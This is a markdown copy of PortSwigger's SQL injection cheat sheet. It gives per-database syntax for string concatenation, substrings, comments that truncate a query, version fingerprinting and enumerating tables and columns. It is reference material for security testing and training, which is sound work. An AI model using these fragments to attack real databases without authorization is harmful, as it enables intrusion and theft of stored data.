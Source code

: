 # SQL Injection Cheatsheet

[Original Link](https://portswigger.net/web-security/sql-injection/cheat-sheet)

> This SQL injection cheat sheet contains examples of useful syntax that you can use to perfrom a variety of tasks that often arise when performing SQL injection attacks.

# String Concatenation

> You can concatenate together multiple strings to make a single string.

**Oracle** :: 'foo'||'bar'                                          <br>
**Microsoft** :: 'foo'+'bar'                                        <br>
**PostgreSQL** :: 'foo'||'bar'                                      <br>
**MySQL** :: 'foo' 'bar' [Note the space between the two strings]   <br>
**MySQL** :: CONCAT('foo','bar')                                    <br>

# Substring

> You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.

**Oracle** :: SUBSTR('foobar', 4, 2)        <br>
**Microsoft** :: SUBSTRING('foobar', 4, 2)  <br>
**PostgreSQL** :: SUBSTRING('foobar', 4, 2) <br>
**MySQL** :: SUBSTRING('foobar', 4, 2)      <br>

# Comments

> You can use comments to truncate a query and remove the portion of the original query that follows your input.

**Oracle** :: --comment                                         <br>
**Microsoft** :: --comment                                      <br>
**Microsoft** :: /✶comment✶/                                    <br>
**PostgreSQL** :: --comment                                     <br>
**PostgreSQL** :: /✶comment✶/                                   <br>
**MySQL**	:: #comment                                           <br>
**MySQL**	:: /✶comment✶/                                        <br>
**MySQL**	:: -- comment [Note the space after the double dash]  <br>

# Database version

> You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

**Oracle**  :: SELECT banner FROM v$version   <br>
**Oracle**  :: SELECT version FROM v$instance <br>
**Microsoft** :: SELECT @@version             <br>
**PostgreSQL** :: SELECT version()            <br>
**MySQL** :: SELECT @@version                 <br>

# Database contents

> You can list the tables that exist in the database, and the columns that those tables contain.

**Oracle** :: SELECT * FROM all_tables                                                          <br>
**Oracle** :: SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'                <br>
**Microsoft** :: SELECT * FROM information_schema.tables                                        <br>
**Microsoft** :: SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'  <br>
**PostgreSQL** :: SELECT * FROM information_schema.tables                                       <br>
**PostgreSQL** :: SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' <br>
**MySQL** :: SELECT * FROM information_schema.tables                                            <br>
**MySQL** :: SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'      <br>

